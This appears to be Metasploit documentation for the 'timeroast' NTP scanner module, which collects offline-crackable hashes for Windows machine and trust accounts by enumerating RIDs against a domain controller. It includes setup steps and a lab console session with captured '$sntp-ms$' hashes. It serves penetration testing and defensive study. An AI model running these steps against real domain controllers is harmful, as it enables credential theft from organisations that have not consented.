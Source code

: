 ## Vulnerable Application
Windows authenticates NTP requests by calculating the message digest using the NT hash followed by the first
48 bytes of the NTP message (all fields preceding the key ID). An attacker can abuse this to recover hashes
that can be cracked offline for machine and trust accounts. The attacker must know the accounts RID, but
because RIDs are sequential, they can easily be enumerated.

## Verification Steps

1. Setup a Windows domain controller target
1. Start msfconsole
1. Use the `auxiliary/admin/dcerpc/samr_account` module to create a new computer account with the `ADD_COMPUTER` action
   1. Note the RID (the last part of the SID) and password of the new account
1. Use the `auxiliary/scanner/ntp/timeroast` module
1. Set the `RHOSTS` option to the target domain controller
1. Set the `RIDS` option to the RID of the new account
1. Run the module and see that a hash is collected, this has will show up in the output of the `creds` command if a
  database is connected

## Options

### RIDS
The RIDs to enumerate (e.g. 1000-2000). Multiple values and ranges can be specified using a comma as a separator.

## Scenarios

### Windows 2019 x64 Domain Controller

```
msf6 auxiliary(scanner/ntp/timeroast) > set RIDS 4200-4205
RIDS => 4200-4205
msf6 auxiliary(scanner/ntp/timeroast) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf6 auxiliary(scanner/ntp/timeroast) > run
[*] Checking RID: 4200
[*] Checking RID: 4201
[+] Hash for RID: 4201 - 4201:$sntp-ms$74e3c4ac73afe868119ff98613888d48$1c0100e900000000000a2c704c4f434ceb0aaf8ac9813bd40000000000000000eb0aea216d99a558eb0aea216d99e010
[*] Checking RID: 4202
[+] Hash for RID: 4202 - 4202:$sntp-ms$e106388a43f6bbd5365e3a6f2dee741d$1c0100e900000000000a2c704c4f434ceb0aaf8ac78c5c9a0000000000000000eb0aea21bb83de46eb0aea21bb8442f0
[*] Checking RID: 4203
[*] Checking RID: 4204
[+] Hash for RID: 4204 - 4204:$sntp-ms$d0b1961cc3d57a1eaa40bfeeb9f30eb9$1c0100e900000000000a2c704c4f434ceb0aaf8ac653c2f50000000000000000eb0aea222a6c25c3eb0aea222a6c6a8c
[*] Checking RID: 4205
[*] Waiting on 3 pending responses...
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ntp/timeroast) >
```
